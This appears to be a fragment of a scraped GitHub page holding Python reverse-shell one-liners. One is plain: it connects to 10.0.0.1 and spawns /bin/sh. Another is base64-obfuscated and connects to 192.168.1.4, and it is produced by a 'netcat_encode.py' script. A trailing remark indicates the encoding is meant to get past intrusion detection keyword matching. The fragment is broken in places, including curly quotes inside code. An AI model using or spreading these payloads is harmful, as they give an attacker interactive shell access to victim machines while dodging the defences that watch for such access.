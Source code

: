 - raw
##### `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


- python netcat_encode.py 192.168.1.4 2015
##### `python -c "exec( __import__( 'base64' ).decodestring( 'cz1fX2ltcG9ydF9fKCdzb2NrZXQnKS5zb2NrZXQoX19pbXBvcnRfXygnc29ja2V0JykuQUZfSU5F\nVCxfX2ltcG9ydF9fKCdzb2NrZXQnKS5TT0NLX1NUUkVBTSk7IHMuY29ubmVjdCgoJzE5Mi4xNjgu\nMS40JywgMjAxNSkpOyBfX2ltcG9ydF9fKCdvcycpLmR1cDIocy5maWxlbm8oKSwwKTsgX19pbXBv\ncnRfXygnb3MnKS5kdXAyKHMuZmlsZW5vKCksMSk7IF9faW1wb3J0X18oJ29zJykuZHVwMihzLmZp\nbGVubygpLDIpOyBwPV9faW1wb3J0X18oJ3N1YnByb2Nlc3MnKS5jYWxsKFsnL2Jpbi9zaCcsJy1p\nJ10p\n' ) )"`


- why
##### pass ids working based key words.
